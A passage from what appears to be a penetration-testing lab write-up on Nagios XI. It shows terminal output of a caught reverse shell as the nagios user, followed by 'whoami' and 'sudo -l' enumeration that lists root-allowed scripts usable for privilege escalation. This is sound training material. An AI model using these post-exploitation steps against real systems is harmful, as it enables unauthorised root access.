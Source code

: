 ![Firefox - Nagios Reverse Shell 7](./assets/screenshots/attacking_common_applications_skills_assessment_14.png)

```
[CONTINUE]

connect to [10.10.15.186] from (UNKNOWN) [10.129.201.90] 44600
bash: cannot set terminal process group (31169): Inappropriate ioctl for device
bash: no job control in this shell
nagios@skills2:~$ 
```

```
nagios@skills2:~$ whoami
nagios
```

```
nagios@skills2:~$ sudo -l

[SNIP]

User nagios may run the following commands on skills2:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```
